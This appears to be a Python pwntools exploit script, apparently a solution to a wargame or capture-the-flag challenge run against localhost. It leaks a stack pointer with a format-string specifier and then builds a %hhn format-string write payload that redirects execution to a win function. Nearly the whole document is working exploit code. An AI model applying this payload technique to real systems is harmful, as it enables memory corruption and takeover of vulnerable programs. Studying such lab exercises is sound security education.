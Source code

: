 ``` python
    wrong = get_wrong(resp)
    r.sendline(str(wrong+1))
    r.recvuntil("Well done, ")
    resp = r.recvline()
    r.sendline()
    resp = resp.split('!')

    return resp[0]

def calculate_value(a, b):
    tmp = abs(a-b)
    if a > b:
        return 0x100-tmp
    return tmp

def main():
    # target = "wargames.6447.sec.edu.au"
    target = "localhost"
    port = "7003"

    r = remote( target, port )

    r.sendline('%3$p')
    resp = do_gamble(r)

    win = int(resp, 16) - 2883
    target = win + 14172
    win = hex(win)

    # Reversing because of little endian
    win = [int(win[i:i+2], 16) for i in range(2, len(win), 2)][::-1]

    payload = (
        p32(target)
        + p32(target + 1)
        + p32(target + 2)
        + p32(target + 3)
        + '%{}c%9$hhn%{}c%10$hhn%{}c%11$hhn%{}c%12$hhn'.format(
            win[0] - 16,
            calculate_value(win[0], win[1]),
            calculate_value(win[1], win[2]),
            calculate_value(win[2], win[3])
        )
    )

    do_change_name(r, payload)

    resp = r.recvrepeat(0.2)
    resp = do_gamble(r)
    print resp

if __name__ == '__main__':
    main()
```
